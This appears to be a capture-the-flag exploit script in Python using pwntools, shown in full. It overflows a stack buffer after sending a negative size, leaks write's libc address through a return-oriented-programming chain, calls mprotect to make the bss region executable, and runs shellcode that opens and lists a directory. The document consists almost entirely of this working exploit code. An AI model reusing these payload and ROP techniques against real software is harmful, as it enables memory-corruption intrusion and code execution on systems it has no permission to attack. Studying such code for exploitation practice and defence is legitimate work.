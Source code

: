 ```python

write_got = elf.got['write']
write_plt = elf.plt['write']
main_addr = elf.sym['main']


def gen_para_payload(para1: bytes, para2: bytes = None, para3: bytes = None) -> bytes:
    payload = b''
    payload += p64(pop_rdi_ret) + para1
    payload += p64(pop_rsi_r15_ret) + para2 + p64(0) if para2 else b''
    payload += p64(pop_rdx_r12_ret) + para3 + p64(0) if para3 else b''
    return payload


payload = b"A"*0x38
payload += p64(pop_rdi_ret) + p64(1) + p64(pop_rsi_r15_ret) + p64(write_got) + p64(0) + p64(write_plt) + p64(main_addr)
sh.recvuntil(b"size?\n")
sh.send(b'-1')
sh.recvuntil(b"content?\n")
sh.sendline(payload)
sh.recvuntil(b"done!\n")


write_addr = u64(sh.recv(6).ljust(8, b"\x00"))
print(hex(write_addr))

libc_base = write_addr - libc.sym['write']
open_addr = libc_base + libc.sym['open']
read_addr = libc_base + libc.sym['read']
getdents64_addr = libc_base + libc.sym['getdents64']
mprotect_addr = libc_base + libc.sym['mprotect']
pop_rdx_r12_ret = libc_base + libc_pop_rdx_r12_ret
pop_rax_ret = libc_base + libc_pop_rax_ret
syscall = libc_base + libc_syscall

# gdb.attach(sh, 'b write')

sh.recvuntil(b"size?\n")
sh.send(b'-1')
sh.recvuntil(b"content?\n")
payload = b"A"*0x30 + p64(bss_addr + 0x100)
payload += gen_para_payload(p64(bss_addr), p64(0x1000), p64(7)) + p64(mprotect_addr) + p64(main_addr)
sh.sendline(payload)
sh.recvuntil(b"done!\n")

sh.recvuntil(b"size?\n")
sh.send(b'-1')
sh.recvuntil(b"content?\n")
payload = b'a'*0x38 + p64(pop_rdi_ret) + p64(0)
payload += p64(pop_rsi_r15_ret) + p64(bss_addr + 0x100) + p64(0)
payload += p64(pop_rdx_r12_ret) + p64(0x300) + p64(0)
payload += p64(read_addr) + p64(main_addr)
sh.sendline(payload)
sh.recvuntil(b"done!\n")

shellcode = shellcraft.open("./", 0x10000)
shellcode += shellcraft.getdents("rax", "rsp", 0x1000)
shellcode += shellcraft.write(1, "rsp", 0x1000)
print('payload:\n', shellcode, type(shellcode))
payload = asm(shellcode) + asm(""" mov r14, 0x401311; call r14;""")
sh.sendline(payload)
```